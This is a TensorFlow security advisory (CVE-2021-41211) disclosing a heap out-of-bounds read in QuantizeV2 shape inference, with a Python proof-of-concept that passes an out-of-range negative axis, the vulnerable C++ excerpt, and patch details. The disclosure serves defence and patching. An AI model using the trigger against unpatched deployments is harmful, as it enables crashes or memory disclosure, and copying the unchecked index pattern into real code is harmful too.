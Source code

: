 ## TFSA-2021-184: Heap OOB in shape inference for `QuantizeV2`

### CVE Number
CVE-2021-41211

### Impact
The [shape inference code for `QuantizeV2`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/framework/common_shape_fns.cc#L2509-L2530) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeV2(
    input=[1.0,1.0],
    min_range=[1.0,10.0],
    max_range=[1.0,10.0],
    T=tf.qint32,
    mode='MIN_COMBINED',
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100,
    ensure_minimum_range=10)
  return data

test()
```

This occurs whenever `axis` is a negative value less than `-1`. In this case, we are accessing data before the start of a heap buffer:

```cc
int axis = -1;
Status s = c->GetAttr("axis", &axis);
if (!s.ok() && s.code() != error::NOT_FOUND) {
  return s;
}
...
if (axis != -1) {
  ...
  TF_RETURN_IF_ERROR(
      c->Merge(c->Dim(minmax, 0), c->Dim(input, axis), &depth));
}
```

The code allows `axis` to be an optional argument (`s` would contain an `error::NOT_FOUND` error code). Otherwise, it assumes that `axis` is a valid index into the dimensions of the `input` tensor. If `axis` is less than `-1` then this results in a heap OOB read.

### Patches
We have patched the issue in GitHub commit [a0d64445116c43cf46a5666bd4eee28e7a82f244](https://github.com/tensorflow/tensorflow/commit/a0d64445116c43cf46a5666bd4eee28e7a82f244).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, as this version is the only one that is also affected.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
